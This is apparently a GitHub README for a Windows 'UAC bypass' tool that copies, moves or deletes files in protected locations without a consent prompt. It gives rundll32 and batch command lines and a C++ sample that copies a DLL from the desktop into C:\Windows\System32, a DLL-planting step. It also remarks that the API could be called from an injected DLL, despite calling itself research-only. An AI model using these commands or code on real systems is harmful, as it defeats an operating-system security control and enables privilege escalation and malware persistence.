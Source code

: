 
# UAC Bypass Consent Tool to Copy Files

### Note.

This tool is for research purposes only. It allows the automation of file operations 
on a very easy way, but isn't suited for exploitation itself. 
 
### What's different? 
 
This tool doesn't use dll injection and can be used from the command-line. On Success the program exits with exit-code zero, non-zero when failed. Note: Use quoted strings for the file names when using the tool from the command-line.

	
### Command-line Usage:

	rundll32.exe uaccpy32.dll,Copy "source" "target" [/AllowWarning]
	rundll32.exe uaccpy32.dll,Move "source" "target" [/AllowWarning]
	rundll32.exe uaccpy32.dll,Delete "target" [/AllowWarning]
	
	rundll32.exe uaccpy64.dll,Copy "source" "target" [/AllowWarning]
	rundll32.exe uaccpy64.dll,Move "source" "target" [/AllowWarning]
	rundll32.exe uaccpy64.dll,Delete "target" [/AllowWarning]
	
	uacbp.bat Copy "source" "target" [/AllowWarning]
	uacbp.bat Move "source" "target" [/AllowWarning]
	uacbp.bat Delete "target" [/AllowWarning]

   
API Usage, not the purpose of this dll, the functions are just available. 
Using from a normal application will result in user consent being asked,
could be used to call from an injected dll. 
(But that's not the purpose of this tool)

	#include "uaccpyapi.h"

	#pragma comment(lib, "uaccpy32.lib")
	// OR #pragma comment(lib, "uaccpy64.lib")

	int _tmain(int argc, _TCHAR* argv[])
	{
		BOOL bInit = FALSE;
		BOOL bResult;
		
		if (NeedsUserConsent())
		{
			_tprintf(_T("There will be asked for user consent anyway when called from another application.\n"));
			//return -1;
		}

		if (!(bInit = SUCCEEDED(CoInitializeEx(NULL, COINIT_APARTMENTTHREADED | COINIT_DISABLE_OLE1DDE))))
		{
			_tprintf(_T("CoInitializeEx failed.\n"));
			return -1;
		}

		UacOperation(_T("C:\\Users\\Username\\Desktop\\source.dll"), _T("C:\\windows\\System32"), _T("target.dll"), UACOP_COPY);

		CoUninitialize();

		return 0;
	}
